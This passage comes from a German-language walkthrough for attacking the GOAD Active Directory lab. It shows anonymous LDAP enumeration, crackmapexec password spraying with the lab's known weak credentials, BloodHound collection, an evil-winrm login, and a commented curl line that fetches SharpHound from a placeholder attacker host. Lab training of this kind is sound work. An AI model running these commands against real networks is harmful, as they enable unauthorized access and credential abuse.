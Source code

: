 ```bash
rpcclient> quit
```

### 3.3 LDAP Anonyme Abfragen
```bash
# Domain-Informationen sammeln
ldapsearch -x -h 192.168.56.10 -b "DC=sevenkingdoms,DC=local" "(objectclass=*)" | head -50

# User-Enumeration (falls anonyme Bindung erlaubt)
ldapsearch -x -h 192.168.56.10 -b "CN=Users,DC=sevenkingdoms,DC=local" "(objectclass=user)" sAMAccountName

# Group-Enumeration
ldapsearch -x -h 192.168.56.10 -b "DC=sevenkingdoms,DC=local" "(objectclass=group)" cn member
```

---

## Schritt 4: Mit schwachen/Standard Credentials

### 4.1 Standard Account Testing
```bash
# Teste bekannte schwache/default Accounts aus GOAD
crackmapexec smb 192.168.56.0/24 -u 'guest' -p '' --continue-on-success
crackmapexec smb 192.168.56.0/24 -u 'anonymous' -p '' --continue-on-success

# GOAD-spezifische schwache Accounts
crackmapexec smb 192.168.56.0/24 -u 'hodor' -p 'hodor' --continue-on-success
crackmapexec smb 192.168.56.0/24 -u users.txt -p passwords.txt --continue-on-success
```

**GOAD v3 bekannte schwache Credentials:**
- `hodor:hodor` (Password = Username)
- `rickon.stark:Winter2019` (Password Spraying Pattern)

### 4.2 Authenticated BloodHound Collection
```bash
# Mit gefundenen Credentials BloodHound ausführen
bloodhound-python -u hodor -p hodor -d north.sevenkingdoms.local -dc winterfell.north.sevenkingdoms.local -c all --dns-tcp

# Alternative: SharpHound von Windows-System (wenn RDP/WinRM möglich)
evil-winrm -i 192.168.56.12 -u hodor -p hodor
# Auf dem System:
# curl -o SharpHound.exe http://attacker-ip/SharpHound.exe
# .\SharpHound.exe -c all -d north.sevenkingdoms.local
```

---

## Schritt 5: BloodHound Datenanalyse
